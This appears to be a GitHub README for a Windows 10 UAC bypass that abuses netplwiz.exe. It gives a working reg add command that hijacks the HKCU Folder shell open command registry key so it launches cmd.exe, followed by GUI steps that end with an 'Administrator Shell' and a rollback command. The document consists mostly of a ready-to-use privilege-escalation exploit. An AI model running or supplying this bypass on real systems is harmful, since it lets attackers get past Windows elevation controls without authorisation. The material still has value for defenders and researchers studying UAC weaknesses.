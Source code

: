 # GUI_UAC_bypassX
gui uac bypass (netplwiz.exe)

- Type: GUI Hack   <br>
- Method: Registry key manipulation <br> 
- Target: \system32\netplwiz.exe <br>
- Component(s): Attacker defined <br>
- Works from: window 10 <br><br>


`HKCU\Software\Classes\Folder\shell\open\command` was called when click manage passwords button in netplwiz.exe
![test](https://github.com/sailay1996/GUI_UAC_bypassX/blob/master/img/2019-09-02_161622.jpg)
`x`
#### Produce steps: <br>
* Run command <br> `reg add "HKCU\Software\Classes\Folder\shell\open\command" /d "cmd.exe /c cmd.exe" /f && reg add HKCU\Software\Classes\Folder\shell\open\command /v "DelegateExecute" /f`
  <br> 
* run <b>netplwiz.exe</b> in cmd .
  <br> 
* Select the "<b>Advanced</b>" tab, and  click the "<b>Manage Passwords</b>" button.
* then you will get <b> Administrator Shell</b>.  <br>
![test](https://github.com/sailay1996/GUI_UAC_bypassX/blob/master/img/2019-09-02_163333.jpg)
#### Rollback command : 
`reg delete "HKCU\Software\Classes\Folder\shell\open\command" /f`
 <br> <br>
 [@404death](https://twitter.com/404death)
